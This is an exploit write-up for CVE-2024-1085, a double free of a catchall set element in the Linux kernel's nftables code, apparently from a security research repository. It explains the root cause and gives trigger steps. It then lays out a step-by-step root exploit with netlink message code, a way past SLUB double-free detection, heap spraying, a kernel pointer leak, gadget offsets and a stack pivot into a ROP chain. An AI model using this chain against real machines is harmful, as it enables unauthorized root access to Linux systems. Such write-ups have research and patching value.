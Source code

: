 # Exploit detail about CVE-2024-1085
If you want to get some base information about CVE-2024-1085, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

### Genmask States of nftables
In nftable, developers use `genmask` in many objects to mark the state of the object. `genmask` has two important flags, which represent whether the object is available in the current task and the next batch of tasks.

```c
/*
 * Generic transaction helpers
 */

/* Check if this object is currently active. */
#define nft_is_active(__net, __obj)				\
	(((__obj)->genmask & nft_genmask_cur(__net)) == 0)

/* Check if this object is active in the next generation. */
#define nft_is_active_next(__net, __obj)			\
	(((__obj)->genmask & nft_genmask_next(__net)) == 0)

/* This object becomes active in the next generation. */
#define nft_activate_next(__net, __obj)				\
	(__obj)->genmask = nft_genmask_cur(__net)

/* This object becomes inactive in the next generation. */
#define nft_deactivate_next(__net, __obj)			\
        (__obj)->genmask = nft_genmask_next(__net)

/* After committing the ruleset, clear the stale generation bit. */
#define nft_clear(__net, __obj)					\
	(__obj)->genmask &= ~nft_genmask_next(__net)
#define nft_active_genmask(__obj, __genmask)			\
	!((__obj)->genmask & __genmask)
```

When an object is deleted, developers usually call `nft_deactivate_next` to modify its `genmask`. Similarly, when developers need to confirm which objects have not been deleted, they need to use `nft_is_active_next` to check to avoid double free and other problems.

## Cause anaylysis

In function `nft_setelem_catchall_deactivate`, it checks if an elem is active by this : 

```c
...
list_for_each_entry(catchall, &set->catchall_list, list) {
		ext = nft_set_elem_ext(set, catchall->elem);
		if (!nft_is_active(net, ext))
			continue;
...
```
but it should use function `nft_is_active_next`. This vulnerability makes it possible to free a catchall->elem twice.


## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set A, and a catchall set element B in pipapo set A.
- Delete element B. 
- Delete element B again. 

By the way, we need to send the command of step 2 and step 3 together because we need to avoid set element B being actually released before our step 3.

## Exploit it

### Target object caches
Because the `struct nft_set_elem->priv` (which is allocated in function `nft_set_elem_init`)object size we plan to use is between 0xc0-0x100, our target object cache is `kmalloc-256`.

### Exploit detail
I exploit CVE-2024-1085 by following steps:

- 1. Create a pipapo set `A`, and a catchall set element `B` in it.
- 2. Trigger the vulnerability by following messages:
   
   ```c
    msg_list[0] = del_setelem_msg(table, pipapo_set, NULL, 0, NULL, 0, 1);//delete the catchall set element first time
    msg_list[1] = del_table_msg(table_obj_for_double_free_bypass);////kfree the table -> udata, so we can kfree another heap object in the same kmalloc-256 cache as our catchall set element to avoid the naive double free detection in the SLUB allocator: https://lore.kernel.org/lkml/1edb137c-356f-81d6-4592-f5dfc68e8ea9@linux.com/t/
    msg_list[2] = del_setelem_msg(table, pipapo_set, NULL, 0, NULL, 0, 1);//delete the catchall set element second time
    send_msg_list(socket, msg_list, 3);
   ```
   	After this we kfree the catchall set element `B` twice. This makes it possiable that we alloc the heap back twice.
- 3. Try to alloc the heap of the catchall set element `B` back by creating `nft_table` with `NFTA_TABLE_USERDATA`. Keep allocing heap, and each time you alloc a heap, check whether the heap has been alloced for(confirmed by whether the memory of the already created heap has been modified). After this step, We will find two `nft_table` with the same `udata`. We assume that the two `nft_tables` are `nft_table C` and `nft_table D`.
- 4. Delete `nft_table C`.
- 5. Spray heap to get the heap of `nft_table C->udata`
back. I spray heap by creating set element with `NFTA_SET_ELEM_EXPR` because I want to leak the `ops` pointer of the `nft_expr`.
- 6. Dump `nft_table D`. Now we leak `nft_last_ops`. `nft_table D`'s `udata` contains the sprayed nft_expr object, so we can leak it's ops field which contains `nft_last_ops`.
- 7. Create another set element `E`. Then dump the `nft_table D` again. We can get the pointer of the set element `E` because each bitmap set element has a doubly linked list.
  ```c
  struct nft_bitmap_elem {
	struct list_head	head;
	struct nft_set_ext	ext;
	};
  ```
- 8. Delete set element `E`. Fill the heap memory of set element `E` through heap spraying.
  ```c
    //ops->dump
    *(uint64_t *)&pad[0x40] = kernel_off + 0xffffffff810b9f43;//leave ; ret
    //ops->type
    *(uint64_t *)&pad[0x78] = kernel_off + 0xFFFFFFFF83967420;//last type
    spray_tables(socket,0x200, pad, 0x80);
  ```
- 9. Delete `nft_table D`.
- 10. Fill the heap memory of `nft_table D ->udata` with fake `nft_expr` and ROP gadget.
- 11. Dump the set elements we create in step 5. Finally we will jmp to our ROP gadget.
    ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...

  ```

### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov     rax, [rbp+0]
	mov     rsi, rbp
	mov     rdi, rbx
	mov     rax, [rax+40h]
	call    __x86_indirect_thunk_rax
```
So the `rbp` is the pointer of the current `nft_expr`. We fill it by following:
```c
	...
	//build fake setelem
    *(uint64_t *)&setelem_data[0x28] = ops_addr; //expr[0]->ops
    //start ROP
    *(uint64_t *)&setelem_data[0x30] = kernel_off + 0xffffffff8112af10;//pop rdi; ret  expr[0]->data
	...
```

The first step of ROP start looks like this(We fill the ops pointer in step 8):
```
expr->ops->dump(skb, expr)  --> leave ; ret 
```
This will finally makes this happen:

```
rsp = element + 0x28 // mov rsp, rbp  
rbp = *(element + 0x28) //pop rbp  rbp=*(&setelem_data[0x28])
rsp = element + 0x30 
rip = *(element + 0x30) //ret   rip=*(&setelem_data[0x30])
rsp = element + 0x38 
```
After completing the stack migration, we can run ROPgadget and finally get the root shell.
